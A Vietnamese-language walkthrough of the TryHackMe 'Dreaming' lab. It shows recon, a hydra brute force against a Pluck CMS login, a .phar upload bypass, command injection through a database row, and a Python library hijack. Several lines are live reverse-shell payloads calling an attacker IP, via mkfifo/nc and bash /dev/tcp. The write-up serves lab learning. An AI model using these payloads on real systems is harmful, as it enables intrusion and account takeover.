

# [THM] Dreaming write-up

- IP: 10.10.197.206

## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -sT -sV -sC -T4 10.10.197.206

<p align="center">
    
</p>

Có 2 port dịch vụ đang mở bao gồm
- Port 22 chạy dịch vụ SSH
- Port 80 chạy dịch vụ HTTP 

Giao diện trang web đó là default page apache2
<p align="center">
    
</p>

Sau khi truy cập và kiểm tra source code thì không phát hiện ra điều gì đặc biệt. Tiếp tục sử dụng tool `ffuf` để scan các thư mục ẩn 
```sh 
ffuf -u "http://10.10.197.206/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt -e .php,.phtml,.sh -recursion
```

<p align="center">
    
</p>

Ta thấy có thư mục `/app` được tìm thấy và khi truy cập vào bên trong thư mục `/app` thì phát hiện ra thư mục `/pluck-4.7.13`. Ta tiếp tục truy cập vào thư mục đó và nhận được giao diện sau

<p align="center">
    
</p>

Để ý đường dẫn có phần GET param `file=dreaming` có thể nghĩ ngay tới `Path traversal` thử gửi param `../../../../../../../etc/passwd` xem có điều gì xảy ra không

<p align="center">
    
</p>

Có vẻ như ta không thể khai thác lỗ hổng này ở đây. Quay trở lại và tiếp tục scan bằng ffuf xem thử còn thư mục nào ẩn không 
```sh
ffuf -u "http://10.10.197.206/app/pluck-4.7.13/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt -e .php,.phtml,.sh
```
<p align="center">
    
</p>

Sau khi scan thì phát hiện ra các thư mục ẩn nhưng hầu hết là không có thông tin gì hữu ích ngoài `/admin.php` và `/login.php`. Khi truy cập `/admin.php` thì được response là chưa đăng nhập và được redirect về `/login.php`

<p align="center">
    
</p>

Form login này cần mỗi password, vậy ta sẽ thử brute force xem sao. Kiểm tra payload khi submit bao gồm `cont1=test&bogus=&submit=Log+in`
-   `cont1` mật khẩu người dùng nhập vào
-   `bogus` trường này được để trống thì sẽ được MD5-encrypt password, có thể check trong source code login của thư viện
-   `submit` hành động login

<p align="center">
    
</p>

<p align="center">
    
</p>

## Exploit
Sử dụng công cụ `hydra` để brute force mật khẩu với câu lệnh 
```sh
hydra -l toannd -P /home/kali/Desktop/rockyou.txt 10.10.197.206 http-post-form "/app/pluck-4.7.13/login.php:cont1=^PASS^&bogus=&submit=Log+in:Password incorrect" -V
```
<p align="center">
    
</p>

Ta đã có được mật khẩu và thực hiện đăng nhập thành công, vào được giao diện dashboard của admin

<p align="center">
    
</p>

Sau khi khám phá và đã tìm thấy page có chức năng upload

<p align="center">
    
</p>

Ta sẽ thử upload reverse shell lên xem có điều gì xảy ra không

<p align="center">
    
</p>

Trang web đã tự động thêm đuôi file `.txt` vào các tệp xử lý php để vô hiệu hóa thực thi. Sau khi tôi tìm hiểu thì còn 1 định dạng file nữa cũng có thể thực thi đó là `phar` file trong php.

<p align="center">
    
</p>

Đã upload thành công và không bị thêm đuôi `.txt`. Bây giờ cần tạo **netcat listener** trên máy attacker và truy cập vào file `shell.phar` để truy cập được vào web shell

<p align="center">
    
</p>

Đúng là như đã dự đoán khi vào check source thì đã biết lý do tại sao đuôi `.txt` được thêm vào

<p align="center">
    
</p>

## Lucien Flag

<p align="center">
    
</p>

Như ta có thể thấy user hiện tại không thể xem bất cứ flag nào của các user khác, vậy việc của chúng ta bây giờ là cần leo thang đặc quyền để có thể xem được những file đó. Sau một hồi tìm kiếm thì đã thấy được file `/opt/test.py` có chứa mật khẩu của user `lucien`

<p align="center">
    
</p>

Sau khi đăng nhập ta đã đọc được file `lucien_flag.txt` để lấy được flag của lucien

<p align="center">
    
</p>

## Death flag

Quay lại với `/opt` ta thấy có `getDreams.py` có vẻ giống như file `/home/death/getDreams.py`

<p align="center">
    
</p>

Bên trên là nội dung của file `getDreams.py`. Hàm `getDreams()` có chức năng kết nối DB và thực hiện truy vấn trường `dreamer` và `dream` trong bảng `dreams`. Nếu có kết quả chương trình sẽ tạo 1 lệnh shell `echo {dreamer} + {dream}` để in thông tin đó ra bằng cách sử dụng `subprocess.check_output`. lệnh này được chạy trong môi trường shell và kết quả của lệnh sẽ được in ra. Vậy ta chỉ cần kiểm soát được giá trị đầu vào của command đó là `dreamer` hoặc `dream` thì có thể thực hiện được command injection

Tiếp tục khám phá trong thư mục của user `lucien` tình cờ đọc được file `.bash_history` và đã thấy được password của database với user lucien. Ta sẽ thử truy cập và thử xem có thể inject thứ gì vào đó không

<p align="center">
    
</p>

Khi truy cập vào database đã tìm thấy bảng mà chúng ta cần
<p align="center">
    
</p>

Chạy câu lệnh sau để update bảng `dreams` trong database để thêm reverse shell

```sql
INSERT INTO dreams (dreamer, dream) VALUES ('hacker', '$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.21.113.26 4321 >/tmp/f)');
```

<p align="center">
    
</p>

Cũng trong file `.bash_history` ta nhận thấy 1 số câu lệnh kiểm tra quyền 
<p align="center">
    
</p>

Đúng như dự đoán có thể chạy file `/home/death/getDreams.py` mà không cần mật khẩu với user `death`
<p align="center">
    
</p>

Với command mà ta vừa inject thực hiện tạo **netcat listener** trên máy attacker để có thể truy cập shell của user `death` và chạy câu lệnh `sudo -u death /usr/bin/python3 /home/death/getDreams.py`
Sau khi truy cập được shell của `death` đã xem được file `death_flag.txt` và lấy được flag của user này

<p align="center">
    
</p>

## Morpheus Flag
Hiện tại còn 1 user nữa đó là `morpheus`, thực hiện check trong thư mục của `morpheus` thì chỉ có file flag là không có quyền read, thấy có file `restore.py` lạ

<p align="center">
    
</p>

File này đang sử dụng thư viện `shutil` để thực hiện backup file, tiếp tục kiểm tra các file thuộc group `death` có quyền thực thi thì phát hiện có `shutil.py`. Vì vậy có thể tận dụng để chèn reverse shell

<p align="center">
    
</p>

Để check được các cronjob hay script đang chạy ngầm không cần quyền root ta cần đến công cụ `pspy64`, công cụ này chưa có sẵn nên ta cần install về
- Đầu tiên sẽ install về trên máy attacker với câu lệnh 
```sh
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
```
<p align="center">
    
</p>

Sau đó tạo server trên máy attacker và install trên server đang tấn công

<p align="center">
    
</p>

Tiếp sau đó chạy 2 câu lệnh để cấp quyền và khởi chạy
```sh
chmod +x /tmp/pspy64
/tmp/pspy64
```

<p align="center">
    
</p>

Ta nhận thấy file `/home/morpheus/restore.py` đang được chạy ngầm. Mà file này đang sử dụng thư viện `shutil.py`, thư viện mà ta có thể chèn reverse shell. Nên ta sẽ chèn reverse shell vào thư viện với câu lệnh 
```sh
echo "import os;os.system(\"bash -c 'bash -i >& /dev/tcp/10.21.113.26/3333 0>&1'\")" > /usr/bin/python3.8/shutil.py
```

Sau đó tạo **netcat listener** trên máy attacker để lắng nghe và sau khi đợi thời gian ngắn đã truy cập được shell của user `morpheus`. Tại đây đã lấy được flag cuối cùng
<p align="center">
    
</p>

## DONE
<p align="center">
    
</p>